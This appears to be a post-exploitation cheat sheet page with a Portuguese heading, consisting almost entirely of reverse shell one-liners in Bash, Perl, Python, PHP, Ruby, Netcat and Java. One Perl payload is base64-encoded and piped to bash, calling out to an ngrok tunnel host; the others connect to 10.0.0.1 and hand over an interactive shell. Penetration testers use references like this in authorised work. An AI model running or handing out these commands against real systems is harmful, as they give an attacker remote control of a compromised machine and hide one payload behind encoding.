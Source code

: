 # Pós Exploração

Reverse Shell&#x20;

Uses base64 encode for safe transport of data

echo 'cGVybCAtZSAndXNlIFNvY2tldDskaT0iOC50Y3Aubmdyb2suaW8iOyRwPTE5ODAxO3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vc2ggLWkiKTt9OycK' | base64 -d | bash

Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

PERL

```
perl -e 'use Socket;$i="8.tcp.ngrok.io";$p=19801;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'

PHP

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Ruby ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to\_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Netcat

nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

Java r = Runtime.getRuntime() p = r.exec(\["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String\[]) p.waitFor()
